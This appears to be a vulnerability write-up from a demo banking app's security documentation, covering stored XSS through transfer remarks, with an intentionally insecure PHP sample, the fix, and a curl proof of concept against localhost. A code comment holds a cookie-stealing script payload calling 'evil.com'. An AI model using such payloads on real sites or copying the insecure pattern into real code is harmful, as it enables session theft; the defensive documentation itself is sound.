

# 03 — Stored XSS via Transaction Remark

| | |
|---|---|
| **Severity** | High |
| **CVSS** | 8.2 (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N) |
| **OWASP** | A03:2021 – Injection |
| **CWE** | CWE-79 (Improper Neutralization of Input During Web Page Generation) |
| **Endpoint** | `POST /api/transfer.php` -> `GET /api/transactions.php` (secure) |
| **Status** | ✅ Mitigated |

## Summary
Stored Cross-Site Scripting (Persistent XSS) occurs when an application receives untrusted input and stores it permanently in a database without sanitization, and subsequently renders it into other users' web browsers without contextual escaping. In a banking portal, an attacker transferring funds with a malicious payload in the transfer remark could execute JavaScript within a recipient's browser or an administrator's SOC audit console, leading to session hijacking, automated unauthorized transfers, or UI alteration.

## Prerequisites
- Attacker has an active account with sufficient balance to send a transfer.
- Target recipient or administrator views the transaction history or ledger.

## What the Vulnerable Code Looks Like

```php
<?php
// ⚠️ INTENTIONALLY INSECURE — for demonstration only
// (this pattern is NOT used in our portal)

// 1. Backend stores raw HTML input into database without sanitization
$remark = $_POST['remark']; // e.g. <script>fetch('http://evil.com/steal?c='+document.cookie)</script>
$stmt = $pdo->prepare("INSERT INTO transactions (sender_id, amount, remark) VALUES (?, ?, ?)");
$stmt->execute([$userId, $amount, $remark]);

// 2. Frontend insecurely renders remark using innerHTML sink
// In vulnerable client script:
// row.innerHTML = '<td>' + txn.amount + '</td><td>' + txn.remark + '</td>';
?>
```

When the victim opens their transaction history, the browser executes the stored `<script>` tag, sending the victim's session cookies or triggering background API calls.

## How Our Code Fixes It (Secure Implementation)

SecureBank implements a multi-layer defense strategy combining backend canonicalization, entity encoding, safe DOM property assignment, and strict Content Security Policy:

```php
// In security/validation.php:
function safe_html(?string $str): string {
    if ($str === null) return '';
    // Encodes <, >, &, ", and ' into safe HTML entities
    return htmlspecialchars($str, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
}

// In security/transfer_service.php:
$remark = canonicalize_input($params['remark'] ?? null);
if ($remark !== null) {
    // Length bounded and checked for malicious signatures
    $remark = mb_substr($remark, 0, 255);
    detect_xss($remark, $senderId); // Logs alert if signature found
}
```

Frontend DOM sink defense (`js/dashboard.js`, `js/transactions.js`):
```javascript
// Strict DOM property assignment using textContent (never innerHTML)
const remarkCell = document.createElement('td');
remarkCell.textContent = txn.remark || '-'; // Browser treats content exclusively as plain text
```

## Proof of Concept / Attack Vector

Submitting a transfer with an XSS script tag payload:
```bash
curl -X POST http://127.0.0.1:8080/api/transfer.php \
  -H "Content-Type: application/json" \
  -H "X-CSRF-Token: $CSRF_TOKEN" \
  -H "Cookie: PHPSESSID=$SESSION_ID" \
  -d '{
    "source_account_id": 1,
    "beneficiary_id": 2,
    "amount": 10.00,
    "remark": "<script>alert(\"XSS_STOLEN\")</script>"
  }'
```

Expected Behavior in UI:
- In the transaction ledger, the text `<script>alert("XSS_STOLEN")</script>` appears safely as literal string characters.
- Zero popups, zero network exfiltration, zero script execution.

## Forensic Evidence & Mitigation Output


- **DOM Rendering Output**: Safe literal text via `Node.textContent`.
- **CSP 2.0 Protection**: Even if an attacker forced an HTML injection, the strict `script-src 'self' 'nonce-...'` policy blocks any script lacking the dynamic per-request cryptographic nonce.
- **SIEM Telemetry**: `XSS_BLOCKED` event logged with the source user ID and raw payload snippet.

## Automated Regression Test
- **Test File**: [`tests/attacks/test_03_stored_xss.php`](../../tests/attacks/test_03_stored_xss.php)
- **Run Command**:
  ```bash
  php tests/attacks/test_03_stored_xss.php
  ```

## Defense-in-Depth Measures
1. **CSP 2.0 with Dynamic Nonce**: Inline `<script>` execution is strictly prohibited by browser policy.
2. **HttpOnly Cookie Flag**: JavaScript is denied programmatic access to `document.cookie`, preventing session theft.
3. **Safe DOM Sinks**: Coding standard mandates `textContent` or `document.createTextNode()` across all frontend views.
